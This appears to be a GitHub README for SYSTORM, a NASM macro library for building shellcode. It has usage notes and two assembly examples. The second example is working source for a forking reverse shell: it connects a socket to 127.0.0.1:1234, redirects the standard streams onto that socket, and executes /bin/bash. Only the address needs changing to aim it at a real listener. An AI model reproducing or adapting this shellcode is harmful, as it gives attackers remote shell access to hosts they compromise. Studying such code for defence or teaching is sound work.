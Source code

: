 # SYSTORM
NASM Standard Library for shellcode
---
https://scorchsecurity.wordpress.com/2016/07/31/nasm-and-friends/

##Usage:
To use functions defined within the .inc files, you have to include that file: `%include "syscall.inc"`
If using "thread.inc", "socket.inc", or "utils.inc", you have to include each function that you want to use.
For example: write `use.thread.create` to use thread.create.

A simple program is:
```
%include "systorm.inc"

global _start
; _start goes first
_start:
    jmp main

; syscalls do not need to be included with 'use.*'
use sock.socket, sock.connect

main:
	stackframe 4

	sock.socket AF_INET, SOCK_STREAM
	mov dword [ebp-4], eax
	sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234

	inline 'Hello!', 0xa			; places addr of 'Hello!\n' into eax
	
	sys.write dword [ebp-4], eax, 7	; write 'Hello!\n' to sockfd
	sys.close dword [ebp-4]			; close sockfd
	
	leave
	sys.exit 0
```
As is evident, systorm defines a number of macros that can be used to perform useful operations, like including inline data and setting up stackframes.

Additionally, all syscalls (prefixed with "sys.") are set up as macros, so they do not need to be included like other functions.

A simple forking reverse shell is:
```
[BITS 32]

%include "systorm.inc"

global _start
_start:
    thread.fork main
    jmp exit

use sock.socket, sock.connect, thread.fork

main:
    stackframe 4

    sock.socket AF_INET, SOCK_STREAM
    mov dword [ebp-4], eax
    sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234
    mov ecx, 2
.dup_loop:
    sys.dup2 [ebp-4], ecx
    dec ecx
    jns .dup_loop
exec:
    inline '/bin/bash', 0
    sys.execve eax, 0, 0
exit:
    sys.exit 0
```
